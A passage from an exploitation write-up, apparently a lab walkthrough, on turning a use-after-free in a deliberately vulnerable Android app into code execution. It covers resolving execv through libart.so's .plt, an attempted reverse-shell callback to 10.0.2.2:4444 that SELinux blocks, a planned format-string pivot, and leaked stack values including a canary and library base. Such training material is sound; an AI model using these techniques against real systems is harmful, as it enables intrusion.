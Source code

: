 ```C
int execv(const char *pathname, char *const argv[]);
```

This time, lets try to at least get to the point where we can execute an arbitrary executable file that we provided, as is described in a [previous section](#alternative-idea-for-exploitation-of-useafterfreewritemodule).

The attentive reader might have noticed that `execv` does not have any offset, i.e. an offset of 0. Thus it will be resolved when the dynamic linker loads `libart.so`. To solve that issue, we just have to figure out to which location a call to `execv` transfers control. Introducing: `.plt`!

One way to find the offset and thus the address of `execv` is to search for calls of `execv` in the binary. It turns out that `ExecWithoutWait` calls `execv`. Disassembling it yields:
```
$ readelf --wide --symbols libart.so | grep ExecWithoutWait
    1305: 00000000004b6ac0   560 FUNC    LOCAL  DEFAULT   14 _ZN3art12_GLOBAL__N_115ExecWithoutWaitERNSt3__16vectorINS1_12basic_stringIcNS1_11char_traitsIcEENS1_9allocatorIcEEEENS6_IS8_EEEE
gef➤  disassemble 0x4b6ac0 + 0x730c03400000
    ...
    0x0000730c038b6bf8 <+312>:	mov    rsi,QWORD PTR [rsp+0x20]
    0x0000730c038b6bfd <+317>:	mov    rdi,r14
    0x0000730c038b6c00 <+320>:	call   0x730c03e08f80   <--- symbol stub for execv
    0x0000730c038b6c05 <+325>:	jmp    0x730c038b6c14 <_ZN3art12_GLOBAL__N_115ExecWithoutWaitERNSt3__16vectorINS1_12basic_stringIcNS1_11char_traitsIcEENS1_9allocatorIcEEEENS6_IS8_EEEE+340>
    ...
```

As we know the base address of `libart.so`, we can compute `0x730c03e08f80 - 0x730c03400000 = 0xa08f80`. If we uploaded a test client shell script that connects to `10.0.2.2:4444`, chose `key = "/data/local/tmp/client"` and `value=<address of execv>`, we would expect to get a connection...but unfortunately, execution gets denied with an error:
```
/com.damnvulnerableapp W/Thread-2: type=1400 audit(0.0:3799): avc: denied { execute } for name="client" dev="dm-5" ino=65602 scontext=u:r:untrusted_app:s0:c152,c256,c512,c768 tcontext=u:object_r:shell_data_file:s0 tclass=file permissive=0 app=com.damnvulnerableapp
```

### Trying to earn all the fruits

As you may have noticed, the above does not really help other than crashing the app. What we want is **arbitrary code execution**!!! Thus, we can try to transform the above UAF vulnerability into another vulnerability, e.g. a format string vulnerability that is easier to exploit!

Observe that there is a function called [`StringPrintf`](https://cs.android.com/android/platform/superproject/+/android-12.0.0_r31:system/libbase/stringprintf.cpp;l=68):
```C++
std::string StringPrintf(const char* fmt, ...) {
	va_list ap;
	va_start(ap, fmt);
	std::string result;
	StringAppendV(&result, fmt, ap);
	va_end(ap);
	return result;
}
```
which is a perfect target as we fully control the content of `key`! Using the same trick as above or by just disassembling the whole `.plt` and searching for `StringPrintf` will reveal that its offset is `0xa08570` (in `.plt`). Notice that `StringPrintf` internally calls `StringAppendV`, which again calls `vsnprintf`.


[0]: 0x730b9b7a371e     --|
[1]: 0x730b9b7a372a       | --> from `.rodata`, thus 0x730b9b7a371e - 0x71e = libUseAfterFreeWriteModule.so
[2]: 0x730b9b7a3710       |
[3]: 0x730b9b7a3735     --|
[4]: 0x730b993ba990     --> stack address: array of example strings
[5]: 0x2147eb93990de82b --> 8 byte canary
[6]: 0x730b993ba8c0     --> stack address: stored `rbp`
[7]: 0x730c0379ffac     --> `art_quick_generic_jni_trampoline+220`, thus 0x730c0379fed0 = `art_quick_generic_jni_trampoline` and `libart.so = 0x730c03400000`
[0]: 0x730b9d3c874e     <-- ptr: "amazing_key"
[1]: 0x730b9d3c875a     <-- ptr: "secret_key"
[2]: 0x730b9d3c8740     <-- ptr: "topsecret_key"
[3]: 0x730b9d3c8765     <-- ptr: "a_very_very_long_key_with_fancy_features_:D"
[4]: 0x730b9afdf9a0     <-- stack address: most likely examples
[5]: 0x2147eb93990de82b <-- looks more like a canary
[6]: 0x730b9afdf8d0     <-- stack address: stored rbp
[7]: 0x730c0379ffac     <-- return address